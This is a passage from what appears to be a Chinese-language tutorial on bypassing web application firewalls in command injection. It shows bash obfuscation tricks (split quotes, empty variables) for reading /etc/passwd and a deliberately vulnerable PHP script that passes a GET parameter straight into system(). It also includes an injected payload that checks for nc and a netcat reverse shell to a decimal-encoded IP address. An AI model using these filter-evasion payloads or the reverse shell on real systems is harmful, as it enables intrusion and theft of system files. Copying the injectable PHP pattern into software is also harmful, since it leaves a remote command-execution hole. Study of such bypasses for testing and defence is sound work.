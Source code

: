 

#### 2.连接符

```bash
# 在bash的操作环境中，连接符，如'

echo test
# 使用连接符
echo te'st
>'
test
# 注意闭合！

# 如读取/etc/passwd
/'b'i'n'/'c'a't'/'e't'c'/'p'a's's'w'd

# 其他字符
双引号 "

反斜杠 \
```



#### 3.未初始化的bash变量

在bash环境中允许我们使用未初始化的bash变量，如 $a ,$b,$c

未初始化的变量值都是`null`

```bash
# 读取/etc/passwd:
cat$a /etc$a/passwd$a
```

![读取成功](http://image.xpshuai.cn/img/image-20220118110911969.png)



```php
#测试WAF
#测试代码：
<?php
    echo "OK";
    system('dig'.$_GET['host']);
?>
```



```bash
www.baidu.com;$s/bin$s/which$s nc$s

# 反弹shell:
/bin$s/nc$s -e/bin$s/bash$s 2130706433 3737
```

